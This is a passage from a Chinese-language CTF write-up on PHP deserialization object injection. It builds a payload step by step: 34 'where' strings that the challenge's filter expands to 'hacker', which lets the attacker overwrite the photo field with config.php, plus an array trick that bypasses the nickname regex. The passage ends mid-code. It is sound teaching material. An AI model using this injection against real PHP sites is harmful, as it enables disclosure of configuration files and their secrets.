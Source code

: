 一个正常的 profile, 序列化之后的内容如下:
```php
<?php
$profile = array(
    'phone'=>"12345678912",
    "email"=>"123@qq.com",
    "nickname"=>"admin",
    "photo"=>"upload//123123123.png"
);
$a = serialize($profile);
echo $a,"\n";

// a:4:{s:5:"phone";s:11:"12345678912";s:5:"email";s:10:"123@qq.com";s:8:"nickname";s:5:"admin";s:5:"photo";s:21:"upload//123123123.png";}
```
filter 函数中会将 where 替换为 hacker ,此时长度会扩增一位, 利用长度变化就可以达成对象注入的目的. 我们的目标是注入 photo 属性, 并设置为 config.php, 所以需要在 nickname 处构造 payload, 对应的序列化字符串为:
```
a:4:{s:5:"phone";s:11:"12345678912";s:5:"email";s:10:"123@qq.com";s:8:"nickname";s:5:"admin";s:5:"photo";s:10:"config.php";}
```
nickname 需要注入的内容为 `";s:5:"photo";s:10:"config.php";}` 这其中会带有引号, 题目对 nickname 使用了 pregmatch 进行过滤,.
```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
为了绕过过滤, nickname 可以传一个数组.
```php
$profile = array(
    'phone'=>"12345678912",
    "email"=>"123@qq.com",
    "nickname"=>array(0=>"admin"),
    "photo"=>"config.php"
);
$a = serialize($profile);
echo $a,"\n";

// a:4:{s:5:"phone";s:11:"12345678912";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:5:"admin";}s:5:"photo";s:10:"config.php";}
```
nickname 需要注入的内容为 `";}s:5:"photo";s:10:"config.php";}`, 一共 34 个字符, 将一个 where 替换成 hacker 会增长一位, 所以需要构造 34 个 where.
payload 如下, 其中的 filter 为题目的 filter 函数.
```php
$profile = array(
    'phone'=>"12345678912",
    "email"=>"123@qq.com",
    "nickname"=>array(0=>'wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}'),
    "photo"=>"config.php"
);

$a = serialize($profile);
echo $a,"\n";

// a:4:{s:5:"phone";s:11:"12345678912";s:5:"email";s:10:"123@qq.com";s:8:"nickname";a:1:{i:0;s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:10:"config.php";}

$b = filter($a);
echo $b,"\n";
$c = unserialize($b);
/*
```